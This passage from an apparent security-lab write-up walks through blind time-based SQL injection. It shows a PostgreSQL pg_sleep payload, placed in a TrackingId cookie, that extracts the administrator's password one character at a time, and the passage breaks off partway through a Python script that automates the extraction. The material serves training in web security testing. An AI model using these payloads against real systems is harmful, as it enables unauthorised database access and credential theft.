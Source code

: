 ### What is the first character of `administrator`'s password
I've used `Request Timer` here for intruder as intruder itself does not display the response time :(.

![picture 46](/assets/images/64ee5a2eab4aeafc8baf8132cdc28f898a35d8594fddb0a45c2ef19c9f156676.png)  

So the first character is `1` and we could let Intruder find all the characters but let's try to do the same with Python again. I will again check for ascii values.

Checking with repeater if asking for ASCII values actually works:

```sql
TrackingId=QRvD0dG8SNkAeEr7'%3bSELECT+CASE+WHEN+(username='administrator'+AND+ASCII(SUBSTRING(password,1,1))=49)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--; session=kP6ZffRl10Pc4DroO8dsIuSMBIwLfgJq
```

... and yes it does! Now let's automate with Python

### Automation with Python

Only thing that is different compared to scripts before it's that we're using time for comparison before and after request was sent.
```py
import requests
import sys
import time

requests.urllib3.disable_warnings()

def inject_func(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        session = requests.Session()
        session.verify = False
        target = "%s" % (ip)
        cookies = {"TrackingId":inj_str.replace("[CHAR]", str(j)),"session":"kP6ZffRl10Pc4DroO8dsIuSMBIwLfgJq"} 
        proxies = {"http": "http://127.0.0.1:8080"}
        time_start=time.time()
        r = session.get(target,proxies=proxies,cookies=cookies,verify=False)
        time_finish=time.time()
        time_total=time_finish - time_start
        #print(time_total)
        if time_total > 2:
            return j
    return 0

def main():
```